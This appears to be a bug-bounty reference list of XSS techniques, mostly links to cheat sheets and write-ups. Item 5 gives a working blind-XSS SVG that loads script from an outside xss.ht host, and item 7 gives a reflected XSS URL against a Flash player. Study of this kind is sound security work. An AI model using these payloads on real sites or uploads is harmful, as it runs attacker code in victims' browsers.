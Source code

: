 ## 1. Browser's XSS Filter Bypass Cheat Sheet

https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet

## 2. Stored XSS using file upload
https://medium.com/@vis_hacker/how-i-got-stored-xss-using-file-upload-5c33e19df51e

## 3. XSS Through Parameter Pollution
https://infosecwriteups.com/xss-through-parameter-pollution-9a55da150ab2

## 4. XSS via HTTP Headers
https://brutelogic.com.br/blog/xss-via-http-headers/

## 5. Blind XSS in svg file
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
  "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg width="200"
       height="200"
       zoomAndPan="disable"
       xmlns="http://www.w3.org/2000/svg"
       xmlns:xlink="http://www.w3.org/1999/xlink"
       xml:space="preserve">
    <!-- Script linked from the outside-->
    <script xlink:href="https://smaul1.xss.ht" />
    <script>
      //<![CDATA[
        alert("Smaul");
      ]]>
    </script>
  </svg>
  ```

## 6. PostMessage XSS
```
https://medium.com/@youghourtaghannei/postmessage-xss-vulnerability-on-private-program-18e773e1a1ba
```
## 7. Flash Based Reflected XSS
```
http://www.domain.com/jwplayer/player.swf?playerready=alert(document.domain)
```
https://hackerone.com/reports/859806

## 8. XSS in .Net
https://blog.isec.pl/all-is-xss-that-comes-to-the-net/

## 9. DOMXSS WIKI
https://github.com/wisec/domxsswiki/wiki

## 10. Reflected XSS Through Insecure Dynamic Loading
https://infosecwriteups.com/reflected-xss-through-insecure-dynamic-loading-dbf4d33611e0

## 11. Uber Bug Bounty: Turning Self-XSS into Good-XSS
https://whitton.io/articles/uber-turning-self-xss-into-good-xss/

## 12. Multi Domain DOM Cross Site Scripting
https://coffeejunkie.me//Multi-Domain-DOM-Cross-Site-Scripting/

## 13. Hunting for XSS with CodeQL
https://medium.com/codex/hunting-for-xss-with-codeql-57f70763b938

## 14. PNG IDAT chunks XSS payload generator
https://github.com/vavkamil/xss2png




